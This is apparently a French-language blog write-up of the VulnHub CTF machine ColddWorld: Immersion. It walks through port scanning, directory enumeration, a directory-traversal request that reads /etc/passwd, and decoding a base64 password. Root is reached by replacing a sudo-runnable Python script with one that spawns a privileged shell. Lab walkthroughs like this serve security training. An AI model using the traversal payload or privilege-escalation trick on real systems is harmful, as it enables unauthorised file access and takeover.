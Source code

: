 ```yaml
---
title: "Solution du CTF ColddWorld: Immersion de VulnHub"
tags: [CTF, VulnHub]
---
```


[ColddWorld: Immersion](https://vulnhub.com/entry/colddworld-immersion,668/) est un CTF proposé sur la plateforme VulnHub et créé par *Martin Frias* (Aka. *C0ldd*)

```
Nmap scan report for 192.168.56.108
Host is up (0.000098s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Immersion
|_http-server-header: Apache/2.4.18 (Ubuntu)
3042/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c7439b1ec2a8276bc2bc58a94d6d4e14 (RSA)
|   256 6099c287ea6a1475e1b46f934f9bfd89 (ECDSA)
|_  256 7fb24af2ecdba58745922f132e5e74bd (ED25519
```

On a donc un serveur web et un SSH sur un port non standard.

## Oreilles de lapin

Le site web ne donnant rien d'intéressant on passe direct sur `Feroxbuster` pour une énumération :

```bash
$ feroxbuster -u http://192.168.56.108/ -w fuzzdb/discovery/predictable-filepaths/filename-dirname-bruteforce/raft-large-directories.txt -n

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.4.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://192.168.56.108/
 🚀  Threads               │ 50
 📖  Wordlist              │ fuzzdb/discovery/predictable-filepaths/filename-dirname-bruteforce/raft-large-directories.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.4.0
 🚫  Do Not Recurse        │ true
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Cancel Menu™
──────────────────────────────────────────────────
301        9l       28w      317c http://192.168.56.108/secure
301        9l       28w      313c http://192.168.56.108/wp
301        9l       28w      313c http://192.168.56.108/js
301        9l       28w      314c http://192.168.56.108/css
301        9l       28w      316c http://192.168.56.108/login
403        9l       28w      279c http://192.168.56.108/server-status
200       17l       27w      401c http://192.168.56.108/
[####################] - 17s    62260/62260   0s      found:7       errors:0      
[####################] - 17s    62260/62260   3661/s  http://192.168.56.108/
```

Dans la page de login on trouve en commentaire HTML le message suivant :

> Hi Carls,
> 
> if you read this, I have gone on a trip, let me tell you, after the last attack we received (thanks to your inactivity as a web developer) we had to make password changes,
> 
> but since he doesn't use a mobile phone or home computers (a bit weird since you are a web developer),
> 
> I left clues on the "page" for you to find your password, I know it will be easy because you are good for detecting security flaws (or so I thought before the attack :D),
> 
> I leave your password in a file called carls.txt that is inside /var, when you get it, log in and finish your work by preparing my bash.
> 
> Greetings, c0ldd.

Assez étonnant, on doit visiblement trouver une faille qui permettra l'accès à un fichier présent dans le dossier `/var` de la machine.

L'autre point à éclaircir c'est la présence de soit disant indices dans la "page", comme ils disent entre guillemets...

`page` est un nom de variable connu pour être potentiellement vulnérable à des directory traversal.

Je rassemble la liste des URLs trouvées jusqu'à présent et j'y rajoute un paramètre `page`. Je met le tout dans un fichier `pages.txt` :

```
http://192.168.56.108/?page=hackme
http://192.168.56.108/login/?page=hackme
http://192.168.56.108/login/account.php?page=hackme
http://192.168.56.108/wp/?page=hackme
http://192.168.56.108/secure/?page=hackme
```

Puis je le fait charger par `Wapiti` via l'option `-s` :

```bash
$ wapiti -u http://192.168.56.108/ -s pages.txt --color -m file --flush-session
ujson module not found, using json

 ██╗    ██╗ █████╗ ██████╗ ██╗████████╗██╗██████╗
 ██║    ██║██╔══██╗██╔══██╗██║╚══██╔══╝██║╚════██╗
 ██║ █╗ ██║███████║██████╔╝██║   ██║   ██║ █████╔╝
 ██║███╗██║██╔══██║██╔═══╝ ██║   ██║   ██║ ╚═══██╗
 ╚███╔███╔╝██║  ██║██║     ██║   ██║   ██║██████╔╝
  ╚══╝╚══╝ ╚═╝  ╚═╝╚═╝     ╚═╝   ╚═╝   ╚═╝╚═════╝  
Wapiti 3.1.6 (wapiti-scanner.github.io)
[*] Saving scan state, please wait...

[*] Launching module file
---
Linux local file disclosure vulnerability in http://192.168.56.108/login/account.php via injection in the parameter page
Evil request:
    GET /login/account.php?page=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd HTTP/1.1
    host: 192.168.56.108
    connection: keep-alive
    user-agent: Mozilla/5.0 (Windows NT 6.1; rv:45.0) Gecko/20100101 Firefox/45.0
    accept-language: en-US
    accept-encoding: gzip, deflate, br
    accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
---

[*] Generating report...
A report has been generated in the file /home/devloop/.wapiti/generated_report
Open /home/devloop/.wapiti/generated_report/192.168.56.108_02172023_1501.html with a browser to see this report.
```

Effectivement la page `account.php` (qui est la cible du formulaire de login) est bien vulnérable.

Je note la présence de ces deux utilisateurs dans le `/etc/passwd` :

```
c0ldd:x:1000:1000:c0ldd,,,:/home/c0ldd:/bin/bash
carls:x:1001:1001:,,,:/home/carls:/bin/bash
```

Et on peut accéder au fichier qui contient le mot de passe :

```
carls:Y2FybG9z
```

Le mot de passe est en base64 et se décode en `carlos`.

## So c0ldd streams

```bash
carls@Immersion:/home$ sudo -l
[sudo] password for carls: 
Coincidiendo entradas por defecto para carls en Immersion:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

El usuario carls puede ejecutar los siguientes comandos en Immersion:
    (c0ldd : c0ldd) /bin/bash
```

Comme indiqué dans le message on peut *regarder* le bash de `c0ldd`.

```bash
carls@Immersion:/home$ sudo -u c0ldd /bin/bash
c0ldd@Immersion:/home$ id
uid=1000(c0ldd) gid=1000(c0ldd) grupos=1000(c0ldd)
c0ldd@Immersion:~$ cd ~c0ldd/
c0ldd@Immersion:/home/c0ldd$ ls -al
total 40
drwxr-x--- 4 c0ldd c0ldd 4096 mar 17  2021 .
drwxr-xr-x 4 root  root  4096 mar 17  2021 ..
-rw------- 1 c0ldd c0ldd    6 mar 17  2021 .bash_history
-rw-r--r-- 1 c0ldd c0ldd  220 mar 17  2021 .bash_logout
-rw-r--r-- 1 c0ldd c0ldd 3771 mar 17  2021 .bashrc
drwx------ 2 c0ldd c0ldd 4096 mar 17  2021 .cache
-rw-r--r-- 1 root  root    33 mar 17  2021 DoNotRun.py
drwxrwxr-x 2 c0ldd c0ldd 4096 mar 17  2021 .nano
-rw-r--r-- 1 c0ldd c0ldd  655 mar 17  2021 .profile
-rw-r--r-- 1 c0ldd c0ldd    0 mar 17  2021 .sudo_as_admin_successful
-rw-rw-r-- 1 c0ldd c0ldd   25 mar 17  2021 user.txt
c0ldd@Immersion:/home/c0ldd$ cat user.txt 
TXV5IGJpZW4gaGVjaG8gOik=
c0ldd@Immersion:/home/c0ldd$ sudo -l
Coincidiendo entradas por defecto para c0ldd en Immersion:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

El usuario c0ldd puede ejecutar los siguientes comandos en Immersion:
    (root) NOPASSWD: /usr/bin/python3 /home/c0ldd/DoNotRun.py
```

Cet utilisateur peut exécuter un script Python avec les droits de root... mais le fichier appartient à root et on ne dispose pas de droits pour le modifier... pourtant :

```bash
c0ldd@Immersion:/home/c0ldd$ echo test > DoNotRun.py
bash: DoNotRun.py: Permiso denegado
c0ldd@Immersion:/home/c0ldd$ rm DoNotRun.py
rm: ¿borrar el fichero regular 'DoNotRun.py'  protegido contra escritura? (s/n) y
c0ldd@Immersion:/home/c0ldd$ ls
startup.py  user.txt
```

Je me suis entretenu avec `ChatGPT` qui était bien à l'ouest pour expliquer ce qu'il se passait, pour lui c'était objectivement impossible.

Si on fouille un peu il semble que ce soit une histoire d'inode, peut être même relatif au système de fichier utilisé (?).

Mais pour résumer dans ces situations on peut supprimer ou renomer, voire déplacer le fichier un sous-dossier sans qu'il change d'owner. Voici deux pages traitant du sujet :

[linux - How to delete a file owned by different user using a bash script? - Super User](https://superuser.com/questions/1497782/how-to-delete-a-file-owned-by-different-user-using-a-bash-script)

[linux - Why was I able to delete a file owned by root in my home directory without being root? - Server Fault](https://serverfault.com/questions/726907/why-was-i-able-to-delete-a-file-owned-by-root-in-my-home-directory-without-being)

Du coup il ne reste plus qu'à créer le script Python que l'on souhaite :

```bash
c0ldd@Immersion:/home/c0ldd$ echo 'import os;os.system("/bin/bash -p")' > DoNotRun.py 
c0ldd@Immersion:/home/c0ldd$ sudo /usr/bin/python3 /home/c0ldd/DoNotRun.py
root@Immersion:/home/c0ldd# id
uid=0(root) gid=0(root) grupos=0(root)
root@Immersion:/home/c0ldd# cd /root
root@Immersion:/root# ls
root.txt
root@Immersion:/root# cat root.txt
RmVsaWNpZGFkZXMgY3JhY2s=
```

*Publié le 17 février 2023*
